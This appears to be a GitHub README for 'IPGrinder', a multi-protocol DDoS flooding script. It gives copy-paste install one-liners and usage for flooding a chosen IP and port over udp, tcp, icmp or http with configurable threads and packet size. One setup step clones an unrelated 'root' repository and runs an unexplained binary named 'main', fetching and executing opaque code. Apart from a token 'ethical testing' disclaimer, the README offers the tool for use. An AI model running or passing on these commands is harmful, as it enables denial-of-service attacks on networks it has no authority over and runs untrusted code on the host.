 # IPGrinder

**IPGrinder** is a DDoS script intended for **stress testing infrastructure**.

> ⚠️ This tool is meant for **educational and ethical testing purposes only**. Do **not** use it on networks or systems without explicit authorization.

---

## 🔧 Setup for Fakeroot

### Manual Steps

```bash
apt-get update && apt-get upgrade -y
apt-get install git -y
git clone https://github.com/adarshaddee/root.git
cd root
chmod +x main
./main
```

### One-liner

```bash
pkg --check-mirror update && apt-get update && apt-get upgrade -y && apt-get install git -y && git clone https://github.com/adarshaddee/root.git && cd root && chmod +x main && ./main
```

---

## ⚙️ Setup for IPGrinder

### Manual Steps

```bash
pkg update && pkg upgrade -y
pkg install git python -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python -m pip install requests
python ipgrinder.py
```

### One-liner

```bash
pkg --check-mirror update && pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python -m pip install requests && python ipgrinder.py
```

---

## 🚀 Usage

```bash
python ipgrinder.py <IP> <PORT> [PROTOCOLS] [THREADS_PER_PROTO] [PACKET_SIZE]
```

### Parameters

- `<IP>` – Target IP address
- `<PORT>` – Target port
- `[PROTOCOLS]` – Comma-separated list of protocols (udp, tcp, icmp, http, all)
- `[THREADS_PER_PROTO]` – Number of threads per selected protocol
- `[PACKET_SIZE]` – Size of each packet in bytes

### Example

```bash
python ipgrinder.py 192.168.1.1 80 tcp,udp 100 1024
```

---

**Disclaimer:** The creator is **not responsible** for any misuse or damage caused by this tool.

